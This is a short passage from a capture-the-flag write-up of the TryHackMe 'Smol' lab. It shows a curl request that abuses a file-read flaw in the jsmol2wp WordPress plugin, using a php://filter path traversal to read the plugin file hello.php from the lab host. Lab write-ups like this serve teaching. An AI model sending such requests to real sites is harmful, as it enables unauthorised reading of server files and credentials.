 ![Webmaster Tasks](/assets/img/tryhackme/Smol/thm_smol_4.jpg)

I researched the "Hello Dolly" plugin and found its <a href="https://github.com/WordPress/hello-dolly">GitHub</a> page. The plugin includes a file called `hello.php`, which seemed worth investigating. Since I could read arbitrary files on the system, I searched for the file and found it:

```bash
$ curl -X GET "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php"
```
